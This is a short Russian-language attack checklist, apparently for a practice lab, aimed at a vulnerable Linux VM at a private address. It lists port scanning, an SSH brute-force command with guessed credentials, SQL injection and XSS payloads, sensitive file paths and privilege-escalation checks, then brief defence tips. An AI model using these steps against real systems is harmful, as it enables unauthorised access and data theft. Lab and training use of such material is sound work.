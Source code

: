
# Руководство по атаке на уязвимую Kali Linux

## Цель: 10.211.55.14

### 1. Разведка
- Сканирование портов: nmap -sT 10.211.55.14
- Проверка веб-сервисов: http://10.211.55.14

### 2. SSH Brute Force
- Пользователи: victor, admin, test
- Пароли: victor123, admin123, test123
- Команда: python3 ssh_brute_force.py 10.211.55.14 -u victor -w passwords.txt

### 3. Веб-атаки
- URL: http://10.211.55.14/login.php
- SQL Injection: admin' OR '1'='1
- XSS: <script>alert('XSS')</script>

### 4. Поиск конфиденциальных файлов
- /etc/passwords.txt
- /etc/secrets.txt
- /home/victor/documents/

### 5. Повышение привилегий
- Поиск SUID файлов: find / -perm -4000 2>/dev/null
- Проверка sudo: sudo -l

## Защита
- Используйте сильные пароли
- Включите fail2ban
- Настройте файрвол
- Регулярно обновляйте систему
